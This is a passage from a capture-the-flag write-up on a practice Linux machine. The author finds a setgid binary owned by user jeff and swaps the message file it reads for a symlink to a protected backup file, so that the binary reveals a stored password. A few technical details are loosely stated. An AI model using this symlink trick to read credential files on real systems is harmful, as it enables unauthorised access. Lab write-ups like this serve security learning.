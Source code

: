 On port 8080 there appears to be nothing, and the other appears to be closed.

On second thought, I've decided to focus on the jeff user (I learned about it thanks to linpeas, but it was also enough to check the home/ folder) and drop the root user for now. I searched all files owned by jeff and found something interesting.

```
backupmgr@tryharder:/home$ find / -user jeff -ls 2>/dev/null
find / -user jeff -ls 2>/dev/null
   795410      4 drwxrwxrwx   2 jeff     jeff         4096 May 24  2020 /opt/systools
   795411     20 -rwxr-sr-x   1 jeff     pwman       17160 May 24  2020 /opt/systools/systool
  1573629      4 drwx------   5 jeff     jeff         4096 May 18  2020 /home/jeff
  1056230      4 -rwxr-x---   1 jeff     pwman          43 May 11  2020 /var/backups/jeff.bak
```

The systool file appears to have the s bit set by user jeff. This means that I can execute that file with jeff's permissions.
There is also a file called message.txt which contains this message.

```
Jeff, you should login with your own account to view/change your password. I hope you haven't forgotten it.
```
It appears to be a message for jeff, probably written by the system administrator.
```
backupmgr@tryharder:/opt/systools$ ./systool
./systool
Welcome to Jeffs System Administration tool.
This is still a very beta version and some things are not implemented yet.
Please Select an option from below.
1 ) View process information.
2 ) Restore your password.
3 ) Exit
Chose your option: 2
2


Jeff, you should login with your own account to view/change your password. I hope you haven't forgotten it.
```
So that file was not just a warning but a message that is part of this program... Damn!

To better understand how this executable works I converted it to base64, copied the contents to a file on my local machine and decrypted it, getting the executable back. But there was nothing hidden, the executable reads the message.txt file when number 2 is input.

I remembered that another file owned by jeff was the file `jeff.bak`, on which I don't have read permissions.

```
backupmgr@tryharder:/var/backups$ file jeff.bak
jeff.bak: regular file, no read permission
```
After a while I realized that I could get the file to be read via the systool executable since it runs with jeff permissions. So I deleted the message.txt file and created a symlink with the same name to the .bak file.
```
backupmgr@tryharder:/opt/systools$ mv message.txt
backupmgr@tryharder:/opt/systools$ ln -s /var/backups/jeff.bak message.txt
backupmgr@tryharder:/opt/systools$ ll
total 28
drwxrwxrwx 2 jeff      jeff       4096 Jul 26 13:55 ./
drwxr-xr-x 4 root      root       4096 May 24  2020 ../
lrwxrwxrwx 1 backupmgr backupmgr    21 Jul 26 13:55 message.txt -> /var/backups/jeff.bak*
-rwxr-sr-x 1 jeff      pwman     17160 May 24  2020 systool*
```
I re-launched the executable and chose option 2. The .bak file is nothing more than a text file containing a password.
```
```